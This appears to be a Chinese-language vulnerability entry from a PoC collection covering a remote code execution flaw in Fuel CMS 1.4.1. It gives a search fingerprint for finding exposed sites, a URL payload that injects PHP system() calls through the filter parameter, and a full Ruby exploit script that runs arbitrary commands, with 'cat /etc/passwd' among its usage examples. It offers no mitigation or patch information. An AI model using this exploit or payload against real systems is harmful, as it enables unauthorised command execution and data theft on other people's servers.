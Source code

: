 # Fuel CMS 1.4.1 远程代码执行漏洞

# Fuel CMS 1.4.1 远程代码执行漏洞

## 漏洞描述

参考链接：

* https://github.com/nahi/httpclient/issues/242
* https://www.exploit-db.com/exploits/49487

## 网络测绘

```
"Fuel CMS"
```

## 漏洞复现

poc：

```
/fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('#{cmd}')%2B'
```

```
#!/usr/bin/env ruby

require 'httpclient'
require 'docopt'

# dirty workaround to ignore Max-Age
# https://github.com/nahi/httpclient/issues/242#issuecomment-69013932
$VERBOSE = nil

doc = <<~DOCOPT
  Fuel CMS 1.4 - Remote Code Execution

  Usage:
    #{__FILE__} <url> <cmd>
    #{__FILE__} -h | --help

  Options:
    <url>         Root URL (base path) including HTTP scheme, port and root folder
    <cmd>         The system command to execute
    -h, --help    Show this screen

  Examples:
    #{__FILE__} http://example.org id
    #{__FILE__} https://example.org:8443/fuelcms 'cat /etc/passwd'
DOCOPT

def exploit(client, root_url, cmd)
  url = root_url + "/fuel/pages/select/?filter='%2Bpi(print(%24a%3D'system'))%2B%24a('#{cmd}')%2B'"

  res = client.get(url)

  /system(.+?)<div/mx.match(res.body).captures[0].chomp
end

begin
  args = Docopt.docopt(doc)
  clnt = HTTPClient.new
  puts exploit(clnt, args['<url>'], args['<cmd>'])
rescue Docopt::Exit => e
  puts e.message
end
```


